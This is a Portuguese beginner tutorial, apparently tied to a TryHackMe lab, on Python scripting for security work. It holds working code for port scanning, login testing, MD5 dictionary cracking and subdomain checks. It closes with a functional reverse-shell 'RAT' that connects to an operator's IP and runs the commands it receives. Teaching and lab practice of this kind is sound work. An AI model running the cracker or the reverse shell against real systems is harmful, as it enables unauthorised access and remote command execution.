 Pyrat - Full Report 

Objetivo
Aprender a criar scripts básicos em Python para automação de tarefas de segurança, com foco em brute force e varredura de portas.

🐍 Conceitos Python Essenciais
1. Sockets (Varredura de Portas)


import socket

alvo = "192.168.1.1"
porta = 22

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(1)
resultado = sock.connect_ex((alvo, porta))
if resultado == 0:
    print(f"Porta {porta} ABERTA")
sock.close()



2. Requests (Teste Web)


import requests

url = "http://10.10.10.10/login"
dados = {"username": "admin", "password": "senha"}
resposta = requests.post(url, data=dados)
if "Bem-vindo" in resposta.text:
    print("Login bem-sucedido!")



3. Threading (Acelerar Processos)

from threading import Thread

def ataque(ip, porta):
    # Código de varredura aqui
    pass

for porta in [21, 22, 80]:
    Thread(target=ataque, args=("10.10.10.10", porta)).start()



🔧 Scripts Práticos
1. Quebrador de Senhas


import hashlib

senha_alvo = "5f4dcc3b5aa765d61d8327deb882cf99"  # MD5 de "password"

with open("wordlist.txt") as arquivo:
    for linha in arquivo:
        palavra = linha.strip()
        hash_teste = hashlib.md5(palavra.encode()).hexdigest()
        if hash_teste == senha_alvo:
            print(f"Senha encontrada: {palavra}")
            break



2. Scanner de Subdomínios

import requests

dominio = "tryhackme.com"
subdominios = ["www", "mail", "vpn"]

for sub in subdominios:
    url = f"http://{sub}.{dominio}"
    try:
        requests.get(url, timeout=3)
        print(f"[+] {url} - ONLINE")
    except:
        print(f"[-] {url} - OFFLINE")



💻 Exercício: Criar um RAT Básico
(Apenas para fins educacionais)

import socket, subprocess

HOST = "0.0.0.0"  # Seu IP
PORT = 4444

s = socket.socket()
s.connect((HOST, PORT))

while True:
    comando = s.recv(1024).decode()
    if comando.lower() == "sair":
        break
    saida = subprocess.getoutput(comando)
    s.send(saida.encode())

s.close()


Aviso: Esse código é para estudo - usar sem permissão é ilegal!



🏆 Checklist de Aprendizado
Habilidade			Script Exemplo			Dominado?
Conexões de rede		Scanner de portas		[ ]
Automação web			Teste de login			[ ]
Processamento paralelo		Threading em varreduras		[ ]


💡 Lições Aprendidas
Python é a linguagem #1 para automação em segurança
Bibliotecas como socket e requests são essenciais
Threading pode acelerar tarefas massivas